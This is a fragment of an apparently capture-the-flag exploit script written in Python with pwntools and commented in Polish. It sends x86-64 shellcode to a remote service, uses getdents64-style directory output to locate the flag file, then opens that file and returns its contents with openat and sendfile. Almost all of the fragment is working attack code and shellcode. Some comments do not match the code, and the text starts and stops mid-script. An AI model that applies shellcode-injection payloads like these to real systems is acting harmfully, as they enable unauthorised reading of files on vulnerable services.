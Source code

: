 ```python
mov  rax,200
mov  [0x0000000000404450], rax ; // Zapis długości (40 bajtów w dziesiętnym) do adresu 0x404250

mov rdi, 1
mov rsi, 0x0000000000404248            ; // Adres danych z `getdents64`
mov rdx, 200                ; // Liczba bajtów odczytanych z katalogu
mov rax, 20                 ; // SYS_writev
syscall

"""

second_payload = """
mov rax, 0x0000006236616336 ; // 6ca6b
push rax
mov rax, 0x3265616134306633 ; // 3f04aae2
push rax
mov rax, 0x6336633566303167 ; // g10f5c6c
push rax
mov rax, 0x616c662f7070612f ; // /app/fla
push rax

mov rdi, -100
mov rsi, rsp
xor edx, edx
xor r10, r10
push SYS_openat ;// SYS_openat
pop rax
syscall

mov rdi, 1
mov rsi, rax
push 0
mov rdx, rsp
mov r10, 0x400
push SYS_sendfile ;// SYS_sendfile
pop rax
syscall

"""
# Analiza danych
def parse_data(data):
    # Przeszukaj dane, aby znaleźć sekcję z flagą
    flag = b"flag"
    start_idx = data.find(flag)  # Znajdź początek flagi
    if start_idx == -1:
        return "Flaga nie znaleziona"
    
    # Znajdź koniec flagi (zakładamy, że kończy się zerem)
    end_idx = data.find(b'\x00', start_idx)
    if end_idx == -1:
        return "Brak zakończenia flagi"
    
    # Wyciągnij flagę
    extracted_flag = data[start_idx:end_idx].decode()
    return extracted_flag

shell=asm(first_payload)
p.send(shell)
flag_path="/app/"+parse_data(p.recv())
info (f"Flag patch: {flag_path}")
p.close()

if args.REMOTE:
```